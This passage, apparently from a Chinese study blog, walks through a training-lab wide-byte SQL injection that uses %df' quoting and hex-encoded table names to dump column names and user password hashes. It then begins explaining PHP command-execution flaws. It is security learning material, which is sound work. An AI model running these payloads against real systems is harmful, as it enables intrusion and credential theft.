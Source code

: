 [![img](http://cdn.ayusummer233.top/img/2413639-20211126222901343-855047564.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901343-855047564.png)

修改代码后，发现原有的绕过方式会在数据表中显示编码后的繁体字“連”，思考新的方式

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,group_concat(column_name) from information_schema.columns where table_name=%df'stormgroup_member%df' %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901282-92871035.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901282-92871035.png)

后来在百度上发现，可以通过**16进制转换的方式来绕过过滤**，所以先将stormgroup_member进行16进制编码得到0x73746f726d67726f75705f6d656d626572，之后获取列名为 name,password,status

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,group_concat(column_name) from information_schema.columns where table_name=0x73746f726d67726f75705f6d656d626572 %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901240-2123960819.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901240-2123960819.png)

随后获取name和password数据为 mozhe，3114b433dece9180717f2b7de56b28a3 和 mozhe，0959ad23e725f2a5e2acfa3344b479e4

http://219.153.49.228:48514/new_list.php?id=-1 %df' union select 1,2,database(),4,group_concat(name,0x7e,password) from mozhe_discuz_stormgroup.stormgroup_member %23

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901921-1228764756.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901921-1228764756.png)

解密后获得账号密码，输入后获取key

[![img](http://cdn.ayusummer233.top/img/2413639-20211126222901504-929107284.png)](https://img2020.cnblogs.com/blog/2413639/202111/2413639-20211126222901504-929107284.png)

**总结**

打这个靶场还是收获颇丰的，首先知道了宽字节注入的绕过原理和方法，其次是发现有的浏览器对不同的注释以及编码的不同要求导致会误判，所以以后在进行初步判断时要更加的全面，因为只有判断正确，之后的注入才可以继续下去，刚开始就错了也就没有继续的必要了

同时也收获了宽字节注入的具体流程，之前的笔记只知道原理，并没有完整的实操过，这一次了解到在传统UNION联合注入过程中，针对存在过滤的情况，如何调整代码来绕过防御，在学到竟然可以通过16进制的方式传递数据时，着实打开了一扇新的大门，随后顺着这个线索知道对于其它字符的绕过，相关知识网上也有很多博客，之后也要找时间学习和整理一下

## 命令执行漏洞利用学习和复现

### 漏洞描述

命令执行漏洞是指的服务器没有对执行的命令进行过滤， 用户可以随意执行系统命令，命令执行漏洞属于高危漏洞之一

如PHP的命令执行漏洞主要是基于一些函数的参数过滤不足导致，可以执行命令的函数有system( )、exec( )、shell_exec( )、passthru( )、pcntl_execl( )、popen( )、proc_open( )等，当攻击者可以控制这些函数中的参数时，就可以将恶意的系统命令拼接到正常命令中，从而造成命令执行攻击
PHP执行命令是继承WebServer用户的权限，这个用户一般都有权限向Web目录写文件，可见该漏洞的危害性相当大

### 漏洞原理

应用程序有时需要调用一些执行系统命令的函数,如在PHP中，使用system、exec、shell_exec、passthru、popen、proc_popen等函数可以执行系统命令，当黑客能控制这些函数中的参数时，就可以将恶意的系统命令拼接到正常命令中，从而造成命令执行漏洞

### 漏洞危害

